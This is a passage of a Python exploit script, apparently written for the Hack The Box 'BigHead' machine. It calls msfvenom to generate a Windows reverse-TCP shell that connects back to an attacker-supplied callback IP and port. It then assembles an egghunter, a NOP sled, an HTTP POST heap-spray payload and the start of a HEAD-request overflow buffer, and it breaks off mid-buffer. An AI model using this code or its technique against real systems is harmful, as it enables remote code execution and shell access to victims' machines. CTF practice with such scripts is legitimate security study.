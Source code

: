 

      1 #!/usr/bin/env python
      2 
      3 import os
      4 import subprocess
      5 import sys
      6 
      7 from pwn import *
      8 from time import sleep
      9 
     10 context(terminal=['tmux', 'new-window'])
     11 context(os='windows', arch="i386")
     12 
     13 
     14 def clean_and_exit(msg, files):
     15     print(msg)
     16     for f in files:
     17         try:
     18             os.remove(f)
     19         except:
     20             pass
     21     sys.exit()
     22 
     23 
     24 if len(sys.argv) != 5:
     25     clean_and_exit("%s [target] [target port] [callback ip] [callback port]" % (sys.argv[0]), [])
     26 
     27 target = sys.argv[1]
     28 port = sys.argv[2]
     29 cb_ip = sys.argv[3]
     30 cb_port = sys.argv[4]
     31 
     32 # Generate Shellcode 
     33 msfvenom_string = 'msfvenom -p windows/shell_reverse_tcp LHOST=%s LPORT=%s EXIT_FUNC=THREAD -a x86 --platform windows -b "\\x00\\x0a\\x0d" -f python -v shellcode -o sc.py' % (cb_ip, cb_port)
     34 print("[*] Generating shellcode:\n    %s" % msfvenom_string)
     35 p = subprocess.Popen(msfvenom_string.split(' '), stdout=subprocess.PIPE, stderr=subprocess.PIPE)
     36 out, err = p.communicate()
     37 
     38 try:
     39     if "Error" in err:
     40         raise Exception("[-] Unable to generate shellcode\n    %s" % err)
     41     from sc import shellcode
     42 except (NameError, Exception) as e:
     43     clean_and_exit(e.message, ['sc.py', 'sc.pyc'])
     44 
     45 print "[+] Shellcode generated successfully"
     46 os.remove('sc.py')
     47 os.remove('sc.pyc')
     48 
     49 # !mona egg -t
     50 egg = '0xdf'
     51 egghunter = "6681caff0f42526a0258cd2e3c055a74efb8" + egg.encode('hex') + "8bfaaf75eaaf75e7ffe7"
     52 
     53 nops = "\x90"*16
     54 spray = egg + egg + nops + shellcode
     55 post = 'POST / HTTP/1.1\r\nHost: dev.bighead.htb\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: {}\r\n\r\n'.format(len(spray))
     56 spray_payload = post + spray
     57 
     58 head = "HEAD /"
     59 junk = "1" * (78-len(head))